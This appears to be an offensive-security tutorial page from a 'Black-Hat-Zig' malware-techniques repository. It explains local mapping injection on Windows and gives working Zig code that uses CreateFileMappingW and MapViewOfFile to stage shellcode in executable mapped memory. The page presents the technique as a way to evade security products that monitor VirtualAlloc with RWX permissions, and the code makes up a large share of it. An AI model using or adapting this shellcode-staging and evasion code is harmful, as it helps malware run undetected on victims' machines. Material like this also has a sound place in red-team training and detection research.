 # Local Mapping Injection

## TL;DR

[See the code example](https://github.com/CX330Blake/Black-Hat-Zig/tree/main/src/Malware-Techniques/Process-Injection/Mapping-Injection/local_mapping_injection)

Local mapping injection is a technique that utilizes Windows file mapping APIs to create executable memory regions without directly calling `VirtualAlloc` with `PAGE_EXECUTE_READWRITE` permissions. This approach leverages mapped memory to execute shellcode within the current process, making it less suspicious to some security solutions.

## Why Mapping Injection

Traditional shellcode execution often relies on `VirtualAlloc` with `RWX` permissions, which is a common indicator monitored by security solutions. Mapping injection offers several advantages:

- **Use non-private memory**: Memory allocated through file mapping is classified as mapped memory rather than private memory
- **Evasion potential**: Some security tools may not monitor file mapping operations as closely as direct memory allocation
- **Legitimate API usage**: File mapping APIs are commonly used by legitimate applications for memory management

## Mapped Memory

In Windows, memory can be categorized into different types:

- **Private memory**: Memory allocated directly by the process (e.g., via `VirtualAlloc`)
- **Mapped memory**: Memory that is associated with a file or file mapping object

When using file mapping, the memory is classified as mapped memory, which can help bypass certain security mechanisms that specifically monitor private memory allocations with executable permissions.

## Local Mapping Injection

Local mapping injection works by:

1. Creating a file mapping object with `CreateFileMapping`
2. Mapping a view of the file into memory with `MapViewOfFile`
3. Writing shellcode to the mapped memory region
4. Executing the shellcode directly in the current process

This technique is particularly useful for:

- Executing shellcode in the current process
- Avoiding direct `VirtualAlloc` calls with executable permissions
- Creating memory regions that appear more legitimate to security solutions

## Needed Windows API

### CreateFileMapping

```zig
extern "kernel32" fn CreateFileMappingW(
    hFile: HANDLE,
    lpFileMappingAttributes: ?*windows.SECURITY_ATTRIBUTES,
    flProtect: DWORD,
    dwMaximumSizeHigh: DWORD,
    dwMaximumSizeLow: DWORD,
    lpName: ?[*:0]const u16,
) callconv(WINAPI) ?HANDLE;
```

Creates a file mapping object for a specified file. When `hFile` is set to `INVALID_HANDLE_VALUE`, it creates a file mapping object backed by the system paging file.

**Parameters:**

- `hFile`: Handle to the file (use `INVALID_HANDLE_VALUE` for paging file)
- `lpFileMappingAttributes`: Security attributes (can be null)
- `flProtect`: Memory protection (e.g., `PAGE_EXECUTE_READWRITE`)
- `dwMaximumSizeHigh`: High-order DWORD of maximum size
- `dwMaximumSizeLow`: Low-order DWORD of maximum size
- `lpName`: Name of the file mapping object (can be null)

### MapViewOfFile

```zig
extern "kernel32" fn MapViewOfFile(
    hFileMappingObject: HANDLE,
    dwDesiredAccess: DWORD,
    dwFileOffsetHigh: DWORD,
    dwFileOffsetLow: DWORD,
    dwNumberOfBytesToMap: SIZE_T,
) callconv(WINAPI) ?PVOID;
```

Maps a view of a file mapping into the address space of the calling process.

**Parameters:**

- `hFileMappingObject`: Handle to the file mapping object
- `dwDesiredAccess`: Access permissions (e.g., `FILE_MAP_WRITE | FILE_MAP_EXECUTE`)
- `dwFileOffsetHigh`: High-order DWORD of file offset
- `dwFileOffsetLow`: Low-order DWORD of file offset
- `dwNumberOfBytesToMap`: Number of bytes to map

## localMapInject Function

The core function that performs the local mapping injection:

```zig
fn localMapInject(pPayload: []const u8, ppAddress: *?PVOID) bool {
    var bState: bool = true;
    var hFile: ?HANDLE = null;
    var pMapAddress: ?PVOID = null;

    // Create a file mapping handle with RWX memory permissions
    hFile = CreateFileMappingW(
        INVALID_HANDLE_VALUE,
        null,
        PAGE_EXECUTE_READWRITE,
        0,
        @intCast(pPayload.len),
        null,
    );

    if (hFile == null) {
        print("[!] CreateFileMapping Failed With Error : {}\n", .{windows.kernel32.GetLastError()});
        bState = false;
        ppAddress.* = null;
        return bState;
    }

    // Map the view of the payload to memory
    pMapAddress = MapViewOfFile(
        hFile.?,
        FILE_MAP_WRITE | FILE_MAP_EXECUTE,
        0,
        0,
        pPayload.len,
    );

    if (pMapAddress == null) {
        print("[!] MapViewOfFile Failed With Error : {}\n", .{windows.kernel32.GetLastError()});
        bState = false;
        ppAddress.* = null;
        if (hFile) |handle| _ = CloseHandle(handle);
        return bState;
    }

    print("[i] pMapAddress : 0x{X}\n", .{@intFromPtr(pMapAddress.?)});

    // Copy payload to mapped memory
    const dest = @as([*]u8, @ptrCast(pMapAddress.?));
    @memcpy(dest[0..pPayload.len], pPayload);

    ppAddress.* = pMapAddress;
    if (hFile) |handle| _ = CloseHandle(handle);
    return bState;
}
```

**Process Flow:**

1. **Create file mapping**: Uses `CreateFileMappingW` with `INVALID_HANDLE_VALUE` to create a mapping backed by the paging file
2. **Map view**: Uses `MapViewOfFile` to map the file into the process address space with write and execute permissions
3. **Copy payload**: Copies the shellcode into the mapped memory region
4. **Return address**: Returns the base address of the mapped memory for execution

## UnmapViewOfFile

```zig
extern "kernel32" fn UnmapViewOfFile(lpBaseAddress: PVOID) callconv(WINAPI) BOOL;
```

While not used in this specific example, `UnmapViewOfFile` is important for cleanup operations. It unmaps a mapped view of a file from the calling process's address space.

**Usage:**

```zig
// Clean up the mapped memory
if (pMapAddress) |addr| {
    _ = UnmapViewOfFile(addr);
}
```

## Key Advantages

1. **Evasion**: Uses legitimate file mapping APIs instead of direct memory allocation
2. **Memory classification**: Creates mapped memory rather than private memory
3. **Flexibility**: Can be extended for more complex scenarios like remote process injection
4. **Legitimate appearance**: File mapping is commonly used by legitimate applications

## Limitations

1. **Local execution only**: This implementation only works within the current process
2. **Still detectable**: Advanced security solutions may still detect the technique
3. **Memory permissions**: Still requires executable memory permissions, which can be monitored

This technique demonstrates how alternative Windows APIs can be used to achieve similar results to traditional methods while potentially evading some security controls.
